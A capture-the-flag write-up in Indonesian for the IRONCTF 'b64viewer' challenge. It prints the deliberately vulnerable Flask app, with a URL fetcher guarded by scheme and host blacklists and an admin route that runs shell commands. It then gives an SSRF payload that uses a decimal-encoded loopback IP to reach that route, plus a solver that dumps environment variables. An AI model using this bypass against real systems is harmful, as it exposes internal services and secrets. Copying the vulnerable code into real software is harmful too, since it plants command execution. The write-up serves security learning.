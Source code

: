 # IRONCTF - b64viewer - Writeup
Pada challenge kali ini diberikan sebuah web app, yang mana melakukan fetch halaman yang kita inginkan dengan mengisi form, dan flag berada pada endpoint `/admin`, yang mana hanya bisa diakses oleh ip localhost

## Source Code
```python
from flask import render_template,render_template_string,Flask,request
from urllib.parse import urlparse
import urllib.request
import random
import os
import subprocess
import base64
app=Flask(__name__)
app.secret_key=os.urandom(16)

@app.route('/',methods=['GET','POST'])
def home():
    if request.method=='GET':
        return render_template('home.html')
    if request.method=='POST':
        try:
            url=request.form.get('url')
            scheme=urlparse(url).scheme
            hostname=urlparse(url).hostname
            blacklist_scheme=['file','gopher','php','ftp','dict','data']
            blacklist_hostname=['127.0.0.1','localhost','0.0.0.0','::1','::ffff:127.0.0.1']
            if scheme in blacklist_scheme:
                return render_template_string('blocked scheme')     
            if hostname in blacklist_hostname:
                return render_template_string('blocked host')
            t=urllib.request.urlopen(url)
            content = t.read()
            output=base64.b64encode(content)
            return (f'''base64 version of the site:
                {output[:1000]}''')
        except Exception as e:
                print(e)
                return f" An error occurred: {e} - Unable to visit this site, try some other website."


@app.route('/admin')
def admin():
    remote_addr = request.remote_addr
    
    if remote_addr in ['127.0.0.1', 'localhost']:
        cmd=request.args.get('cmd','id')
        cmd_blacklist=['REDACTED']
        if "'" in cmd or '"' in cmd:
            return render_template_string('Command blocked')
        for i in cmd_blacklist:
            if i in cmd:
                return render_template_string('Command blocked')
        print(f"Executing: {cmd}")
        res= subprocess.run(cmd, shell=True, capture_output=True, text=True)
        return res.stdout
    else:
        return render_template_string("Don't hack me")

if __name__=="__main__":
    app.run(host='0.0.0.0',port='5000')

```

untuk mendapatkan flag kita hanya cukup melakukan `SSRF` sederhana, dengan mengisi form url menjadi payload berikut.

```
http://2130706433:5000/admin
```
url akan menerjemahkan `2130706433` sebagai `127.0.0.1`, sehingga kita akan membuka path `/admin` denan ip localhost.

karena flag di letakan di env, kita tinggal menambahkan cmd=printenv, dan kita mendapatkan flag, berikut kode solver nya

## Solver Code
```python
import requests
import base64
import re

URL = 'http://localhost:5000/'

data = {'url':'http://2130706433:5000/admin?cmd=env'}
pattern = r"base64 version of the site:\s*b'([^']*)'"

req = requests.post(URL,data=data)
match = re.search(pattern,req.text)
if match:
	b64decode = base64.b64decode(match.group(1))
	print(b64decode.decode())
else:
	print(req.text)


```